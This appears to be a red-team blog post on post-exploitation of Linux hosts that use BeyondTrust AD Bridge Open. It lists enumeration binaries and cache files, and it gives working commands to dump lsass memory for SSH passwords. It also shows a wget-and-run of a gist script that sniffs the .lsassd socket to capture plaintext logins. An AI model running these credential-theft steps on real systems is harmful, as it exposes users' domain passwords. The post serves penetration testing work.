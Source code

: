 ```yaml
---
title: "BeyondTrust AD Bridge Open Post-Exploitation"
layout: "post"
---
```


[AD Bridge Open](https://github.com/BeyondTrust/pbis-open) is an open-source community project sponsored by BeyondTrust Corporation. It is essentially a wrapper application that will facilitate the integration of \*nix hosts with Microsoft Active Directory (sets up Kerberos and LDAP Auth).


**This post describes a few post-exploitation tips, were ROOT access was obtained on a Linux host that is using BeyondTrust AD Bridge Open.**


Also the post content is based on the last open source version that is available on GitHub (AD Bridge Open 9.1.0.551). The project was discontinued and moved to an enterprise closed source model in 2021.



## Builtin binaries and files for situational awareness

AD Bridge Open installs and uses several binaries that are very useful for enumerating an Active Directory environment, if the Linux box was streamlined and does not have any LDAP or SMB clients installed (those are typically present on Linux distributions).

The software keeps a cache file of domain users and associated Active Directory information in this file `/var/lib/pbis/db/lsass-adcache.filedb.DOMAIN.LOCAL`.

So without making any request to the Domain Controllers it is possible access a trove of useful information about the AD environment.

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-1.png">
</p>



Another interesting file is `/var/lib/pbis/db/lwi_events.db`. If the Active Directory has been hardened and the Machine Account Quota is set to zero for all regular domain accounts, by reading this file one can get the domain account that was used to join the Linux machine to the domain - again without making a single request to the Domain Controllers.

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-2.png">
</p>



As for useful LOLBIN's for enumeration and situational awareness, they can all be found in the directory `/opt/pbis/bin/`

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-3.png">
</p>


These are pretty much self explanatory:

 - `/opt/pbis/bin/enum-groups`
 - `/opt/pbis/bin/enum-members`
 - `/opt/pbis/bin/enum-objects`
 - `/opt/pbis/bin/enum-users`
 - `/opt/pbis/bin/list-groups-for-user`
 - `/opt/pbis/bin/find-by-sid`
 - `/opt/pbis/bin/find-group-by-id`
 - `/opt/pbis/bin/find-group-by-name`
 - `/opt/pbis/bin/find-objects`
 - `/opt/pbis/bin/find-user-by-id`
 - `/opt/pbis/bin/find-user-by-name`
 - `/opt/pbis/bin/ldapsearch`


`/opt/pbis/bin/get-dc-list DOMAIN.LOCAL` Will output the names and IPs of all Domain Controllers.


`/opt/pbis/bin/adtool` Can query and modify objects in Active Directory - eg: add user or computer accounts.


`/opt/pbis/bin/get-dc-list/update-dns` Registers IP addresses and the corresponding PTR records in DNS via a secure dynamic DNS update that could be handy for ADIDNS Zone poisoning.


`/opt/pbis/bin/lwio-copy` Is an SMB client that can be used to transfer files.



You can find more details about the binaries function, command flags and whatnot on the [official documentation](https://www.beyondtrust.com/docs/ad-bridge/getting-started/linux-admin/index.htm).




# Domain credentials for lateral movement and privilege escalation

As with any pentesting or red teaming engagement I want to obtain Domain credentials to move laterally and/or escalate privileges.

SSH authentication is integrated with Active Directory using AD Bridge Open, so I can dump the LSASS process memory, run strings and grep for SSH authentications and/or passwords.

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-4.png">
</p>


GDB can be attached using one of the AD Bridge Open binaries,
```bash
/opt/pbis/bin/lwsm gdb lsass
```

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-5.png">
</p>


Or I can just run:
```bash
gcore `ps aux | grep '[l]sass' | awk '{print $2}'` && strings core.* | grep -C 8 -Hnia --color=auto "ssh"
```

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-6.png">
</p>


The only issue with this method is that it's a bit hit-and-miss with the grep "offsets". Sometimes I get the user credential within the offsets, other times I get nothing and the credential is somewhere inside the ~1Gb memory dump file.


So I decided to look again at the files being used by AD Bridge Open, and found several of Unix Sockets on the directory `/var/lib/pbis/`

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-7.png">
</p>


`.lsassd` appeared interesting, so I decided to sniff its traffic.

I'll need to install wireshark/tcpdump and socat and then run a small bash script to accomplish this.

Since I have to wait for an SSH connection, I'm going to run everything from a Tmux session. That way I can detach it and leave it running.

```bash
yum -y install wireshark socat tmux
tmux
wget https://gist.githubusercontent.com/ricardojba/05d8ca06717292798054ca968082b70a/raw/5eea101b9054b19aa21714b2cbcbc5bc2173cdf4/unixsock-sniff.sh -O unixsock-sniff.sh
chmod 755 unixsock-sniff.sh
./unixsock-sniff.sh -u /var/lib/pbis/.lsassd
```

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-8.png">
</p>

If the Linux box is often accessed by users or there's some automated scanning software that performs authenticated scans against the box (eg: Nessus), I quickly capture an SSH login and the plain-text password.

```bash
tshark -x -r /tmp/unix_socket_dump.pcap | grep -C 8 sshd
```


Pretty sure that there's a lot that I didn't cover or missed, but this will help get us started in a pentest or red team of \*nix hosts with BeyondTrust AD Bridge Open installed.

